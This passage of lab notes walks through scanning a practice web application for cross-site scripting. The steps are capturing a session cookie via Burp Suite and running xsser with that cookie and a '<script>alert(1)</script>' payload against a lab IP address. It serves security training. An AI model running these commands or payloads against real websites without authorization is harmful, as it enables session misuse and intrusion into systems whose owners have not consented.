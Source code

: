- Activate `FoxyProxy` Plugin, start `BurpSuite`, refresh the webpage and copy the `Cookie` from the Proxy intercepted request
  - `PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0`

- Run the **`xsser`** tool by
  - replacing the `firstname` value string with `XSS`
  - feeding the Cookie
  - stop BurpSuite interceptor

```bash
xsser --url "http://192.56.179.3/htmli_get.php?firstname=XSS&lastname=hi&form=submit" --cookie="PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0"
```

![](1-webapp-httpassets/image-20230505004208373.png)

```bash
xsser --url "http://192.56.179.3/htmli_get.php?firstname=XSS&lastname=hi&form=submit" --cookie="PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0" --Fp "<script>alert(1)</script>"
```
